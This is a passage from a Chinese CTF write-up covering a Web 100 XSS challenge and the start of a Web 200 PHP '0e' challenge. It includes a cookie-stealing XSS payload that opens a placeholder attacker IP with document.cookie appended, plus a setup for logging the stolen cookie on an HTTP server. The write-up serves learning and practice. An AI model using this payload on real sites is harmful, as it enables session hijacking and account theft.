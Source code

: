 首先在一台具有`能够被赛题服务器访问到的IP`的机器上开一个`SimpleHTTPServer`：

```
python -m SimpleHTTPServer 80
```

接着在赛题页面输入用户名如下，密码随意：

```javascript
<script>window.open("http://xxx.xxx.xxx.xxx/" + document.cookie)</script>
```

![](images/web100-xss-login.png)

查看服务器日志：

![](images/web100-xss-flag.png)

如果没有上述服务器，也可以使用在线XSS平台，或者把自己的电脑暂时设置为宿舍路由器的DMZ主机。

(Scripting of Cross Site)

### Web 200 这是一道很难的题目

```
题目：你听说过 PHP 吗？

http://10.10.175.209:11002/
```

考查获取网站备份文件意识及`PHP 0e`安全隐患知识。

右键查看注释之后发现存在一个`tj761306263`的用户名，输入后跳转到`login.php`，提示无法登陆。

![](images/html.jpg)
